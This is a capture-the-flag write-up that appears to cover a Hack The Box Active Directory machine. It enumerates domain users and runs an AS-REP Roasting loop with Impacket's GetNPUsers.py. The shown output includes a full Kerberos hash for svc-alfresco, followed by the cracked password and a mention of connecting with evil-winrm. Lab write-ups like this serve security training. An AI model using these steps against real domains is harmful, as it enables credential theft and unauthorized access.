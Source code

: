 ```
        Comment     :
        Remote Dial :
        Logon Time               :      Fri, 20 Sep 2024 13:13:49 EDT
        Logoff Time              :      Wed, 31 Dec 1969 19:00:00 EST
        Kickoff Time             :      Wed, 31 Dec 1969 19:00:00 EST
        Password last set Time   :      Mon, 30 Aug 2021 20:51:59 EDT
        Password can change Time :      Tue, 31 Aug 2021 20:51:59 EDT
        Password must change Time:      Wed, 13 Sep 30828 22:48:05 EDT
        unknown_2[0..31]...
        user_rid :      0x1f4
        group_rid:      0x201
        acb_info :      0x00000010
        fields_present: 0x00ffffff
        logon_divs:     168
        bad_password_count:     0x00000000
        logon_count:    0x0000007d
        padding1[0..7]...
        logon_hrs[0..21]...
```

Typically that requires credentials on the domain to authenticate with. There is an option for an account to have the property “Do not require Kerberos preauthentication” or UF_DONT_REQUIRE_PREAUTH set to true. AS-REP Roasting is an attack against Kerberos for these accounts. I have a list of accounts from my RPC enumeration above. I’ll start without the SM* or HealthMailbox* accounts:
```
cat users
Administrator
andy
lucinda
mark
santi
sebastien
svc-alfresco
```

Now I can use the Impacket tool GetNPUsers.py to try to get a hash for each user, and I find one for the svc-alfresco account:
```
for user in $(cat users); do GetNPUsers.py -no-pass -dc-ip 10.10.10.161 htb/${user} | grep -v Impacket; done

[*] Getting TGT for svc-alfresco
$krb5asrep$23$svc-alfresco@HTB:40b53cd84c9905289250b50353b5fc44$06a89f54f7989ae3ce4ebea3a3bfb150833e67864d780ec167d710b44e2e938a5b91c17932cf0f06c7dbaf82ee9f17f72bf72c73f5c0d66147e8d8dff9d6eccf2af4a15efefee26d58bd6443d0ed4a3774cd9f56c977a91b517b8cec94a73e2cec3895f091d4cf0b77ec78fbeca0c18cbb4e00ad86b065d4ff04c510346bc42061b0134180a665334fbbb2ee5856f8eef580f7e916d22589602ed94d648be7f4cd62db8fc8ca4754bc85a2ba403386a2e728214ffdb412a6c1c55d05e1933ac848874ecd91b2d7c1f2e26575e920937b63515fcffbee3287472c75e4a80be094

```

Then we can crack it `s3rvice` and we can use `evil-winrm` to connect it.
